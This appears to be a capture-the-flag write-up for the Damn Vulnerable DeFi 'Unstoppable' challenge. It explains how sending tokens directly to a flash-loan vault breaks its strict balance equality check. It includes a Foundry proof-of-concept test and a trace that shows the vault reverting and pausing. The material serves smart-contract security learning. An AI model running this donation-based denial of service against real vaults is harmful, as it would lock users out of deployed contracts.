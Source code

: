 # Damn Vulnerable Defi - Unstoppable
- Scope
    - UnstoppableVault.sol
    - UnstoppableMonitor.sol  
- Tools
		- [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## Incorrect equality check in `flashLoan()`

### Summary
In the `flashLoan()` function, there is an equality check between `totalAssets()` and `convertToShares(totalSupply)`. However, a manual transfer of token to the vault does not update the totalSupply, which will cause an inbalance and between the 2 values as they both uses different calculation methods.

### Vulnerability Details
The `flashLoan()` function checks if the totalAssets is equal to totalSupply and causes a revert if they are not. However, both methods calculates the balance of the vault differently.
```diff
function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();
-        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }
```

### Impact/Proof of Concept
By transferring 1 token into the vault, it will not update `totalSupply` in ERC20. Hence, causing an inbalance between balanceOf() the vault (1000001) and totalSupply (1000000) and causing `InvalidBalance()` error.
```
function test_unstoppable() public checkSolvedByPlayer {
        uint256 amount = 10e18;
        // Transfer token to vault
        token.transfer(address(vault), amount);

        // Call Flash loan and expect revert
        vm.expectRevert();
        vault.flashLoan(IERC3156FlashBorrower(player), address(token), 10e18, "");
    }
```
Results
```diff
[PASS] test_unstoppable() (gas: 71628)
Traces:
  [71628] UnstoppableChallenge::test_unstoppable()
    ├─ [0] VM::startPrank(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C])
    │   └─ ← [Return] 
    ├─ [12574] DamnValuableToken::transfer(UnstoppableVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 10000000000000000000 [1e19])
    │   ├─ emit Transfer(from: player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], to: UnstoppableVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], amount: 10000000000000000000 [1e19])
    │   └─ ← [Return] true
    ├─ [0] VM::expectRevert(custom error f4844814:)
    │   └─ ← [Return] 
    ├─ [7286] UnstoppableVault::flashLoan(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], DamnValuableToken: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], 10000000000000000000 [1e19], 0x)
    │   ├─ [519] DamnValuableToken::balanceOf(UnstoppableVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   └─ ← [Return] 1000010000000000000000000 [1e24]
    │   ├─ [519] DamnValuableToken::balanceOf(UnstoppableVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   └─ ← [Return] 1000010000000000000000000 [1e24]
    │   └─ ← [Revert] InvalidBalance()
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::prank(deployer: [0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946])
    │   └─ ← [Return] 
    ├─ [0] VM::expectEmit()
    │   └─ ← [Return] 
    ├─ emit FlashLoanStatus(success: false)
    ├─ [26828] UnstoppableMonitor::checkFlashLoan(100000000000000000000 [1e20])
    │   ├─ [262] UnstoppableVault::asset() [staticcall]
    │   │   └─ ← [Return] DamnValuableToken: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b]
    │   ├─ [7286] UnstoppableVault::flashLoan(UnstoppableMonitor: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5], DamnValuableToken: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], 100000000000000000000 [1e20], 0x)
    │   │   ├─ [519] DamnValuableToken::balanceOf(UnstoppableVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   │   └─ ← [Return] 1000010000000000000000000 [1e24]
    │   │   ├─ [519] DamnValuableToken::balanceOf(UnstoppableVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   │   └─ ← [Return] 1000010000000000000000000 [1e24]
-    │   │   └─ ← [Revert] InvalidBalance()
    │   ├─ emit FlashLoanStatus(success: false)
    │   ├─ [8817] UnstoppableVault::setPause(true)
    │   │   ├─ emit Paused(account: UnstoppableMonitor: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5])
    │   │   └─ ← [Stop] 
    │   ├─ [5178] UnstoppableVault::transferOwnership(deployer: [0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946])
    │   │   ├─ emit OwnershipTransferred(previousOwner: UnstoppableMonitor: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5], newOwner: deployer: [0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946])
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [349] UnstoppableVault::paused() [staticcall]
    │   └─ ← [Return] true
    ├─ [0] VM::assertTrue(true, "Vault is not paused") [staticcall]
    │   └─ ← [Return] 
    ├─ [405] UnstoppableVault::owner() [staticcall]
    │   └─ ← [Return] deployer: [0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946]
    ├─ [0] VM::assertEq(deployer: [0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946], deployer: [0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946], "Vault did not change owner") [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.63ms (404.26µs CPU time)
```
